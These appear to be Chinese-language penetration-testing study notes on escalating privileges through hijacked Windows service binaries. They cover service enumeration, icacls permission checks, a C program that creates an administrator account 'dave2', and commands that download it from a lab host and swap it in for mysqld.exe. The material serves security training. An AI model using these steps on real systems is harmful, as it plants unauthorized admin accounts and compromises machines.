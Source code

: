 ## 16.2 利用Windows服务

### 16.2.1 服务二进制文件劫持

查看服务

```armasm
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

查看服务的二进制文件访问权限

```armasm
icacls "C:\xampp\apache\bin\httpd.exe"
icacls "C:\xampp\mysql\bin\mysqld.exe"
```

|Mask掩模|Permissions权限|
| ----------| ---------------------------------------|
|F|Full access完全访问权限|
|M|Modify access修改访问|
|RX|Read and execute access读取和执行访问|
|R|Read-only access只读访问|
|W|Write-only access只写存取|

关注F和W权限的

创建添加用户程序

```armasm
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

编译

```armasm
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

下载替换文件

```armasm
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```
